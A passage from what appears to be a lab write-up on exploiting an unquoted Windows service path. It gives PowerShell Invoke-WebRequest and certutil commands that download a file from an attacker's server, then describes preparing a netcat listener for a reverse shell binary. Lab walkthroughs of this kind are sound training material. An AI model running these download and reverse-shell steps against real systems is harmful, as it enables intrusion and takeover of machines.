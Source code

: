 {% highlight powershell %}
powershell -c "Invoke-WebRequest -URI {YOUR SERVER IP(THM IP)}:80/{THE FILE YOU WANT TO DOWNLOAD} -OutFile {THE PATH WHERE THE FILE WILL BE SAVED}"
{% endhighlight %}

{% highlight powershell %}
certutil.exe -urlcache -split -f http://{YOUR SERVER IP(THM IP)}:80/{THE FILE YOU WANT TO DOWNLOAD}
{% endhighlight %}

Double-check to see if the executable downloaded successfully into the directory to which you have the write access.

![](/assets/img/posts/unquoted-service-path-vulnerability/24.jpg)<br><br>
Start a **netcat** listener on the port you declared in the reverse shell binary.

![](/assets/img/posts/unquoted-service-path-vulnerability/25.jpg)<br><br>